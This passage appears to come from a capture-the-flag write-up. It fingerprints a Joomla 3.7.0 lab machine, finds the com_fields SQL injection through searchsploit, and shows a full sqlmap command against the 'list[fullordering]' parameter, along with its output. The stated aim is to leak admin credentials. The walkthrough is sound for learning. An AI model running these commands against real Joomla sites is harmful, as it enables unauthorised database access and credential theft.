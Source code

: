 ```bash
msf5 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
```

#### Looking for an vulnerability

With a version and CMS in mind I decided to feed the pair into searchsploit to see if anything turned up on exploit-db.

```bash
root@kali:~# searchsploit -w joomla | grep 3.7.0
Joomla! 3.7.0 - 'com_fields' SQL Injection    | https://www.exploit-db.com/exploits/42033
```

This yielded a single sql injection vulnerability that exploited a parameter in the com_fields component. Specifically, it identified that this component was vulnerable to an error-based injection as well as a time-based and boolean-based blind injection. Further information on the specific vulnerability can be found on the [sucuri blog](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html).

### Mapping the database

I decided to try to map out the database to see if I could leak the admin credentials through one of these injection methods. To start, I ran a `sqlmap` command with the `TEB` techniques, representing each of the identified techniques in the vulnerability listing, and the `--dbs` flag to attempt to identify the joomla database. I've truncated some of the output to save space. It's worth noting that this run took quite a while as it was left intentionally broad to identify more information about the database.

```bash
msf5 auxiliary(scanner/http/joomla_version) > sqlmap -u "http://10.10.162.223/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p 'list[fullordering]' --risk=3 --level=5 --random-agent --proxy http://127.0.0.1:8080 --technique=TEB --dbs
[*] exec: sqlmap -u "http://10.10.162.223/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p 'list[fullordering]' --risk=3 --level=5 --random-agent --proxy http://127.0.0.1:8080 --technique=TEB --dbs
 ___ ___[.]_____ ___ ___  {1.4.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:08:05 /2020-11-27/

[21:08:06] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.0.8) Gecko/2009040312 Gentoo Firefox/3.0.8' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[21:08:07] [INFO] testing connection to the target URL
[21:08:07] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=m0itckdsrg4...abd2rhmpp7'). Do you want to use those [Y/n] Y
[21:08:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:08:10] [INFO] testing if the target URL content is stable
[21:08:10] [INFO] target URL content is stable
[21:08:11] [INFO] heuristic (basic) test shows that GET parameter 'list[fullordering]' might be injectable (possible DBMS: 'MySQL')
[21:08:11] [INFO] testing for SQL injection on GET parameter 'list[fullordering]'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
```